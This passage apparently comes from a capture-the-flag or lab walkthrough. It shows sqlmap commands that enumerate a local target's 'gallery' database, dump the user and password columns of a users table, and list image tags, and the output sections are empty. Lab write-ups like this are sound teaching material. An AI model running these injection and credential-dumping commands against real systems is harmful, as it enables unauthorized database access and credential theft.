






3.2 sqlmap
1. On your kali Machine run “sqlmap” against the target machine. Here, we set the risk at 3 and level at 5. This is the option we got the best results in the least time.
$ sqlmap -u 192.168.12.59/?tag=1 --dbs --batch --risk 3 --level 5
Output:

You'll get two databases.
2. Enumerate the “gallery” database.
$ sqlmap -u 192.168.12.59/?tag=1 -D gallery --tables --batch --risk 3 --level 5
Output:

There are two tables.
3. Enumerate the “users” table. Get the columns.
$ sqlmap -u http://192.168.12.59/?tag=1 --dbs --columns -T users -D gallery
Output:

We're only interested in this two fields: “user” and “pass”.
4. Enumerate those fields.
$ sqlmap -u http://192.168.12.59/?tag=1 --dump -C user,pass -T users -D gallery
Output:

6. Enumerate the “art” table. Get the columns.
$ sqlmap -u http://192.168.12.59/?tag=1 --dbs --columns -T art -D gallery
Output:

7. Enumerate the “image” and 'tag" fields.
$ sqlmap -u http://192.168.12.59/?tag=1 --dump -C image,tag -T art -D gallery
Output:

You can see there's an image (dsa32.jpg) with different “tag”. Maybe there's something hidden on it.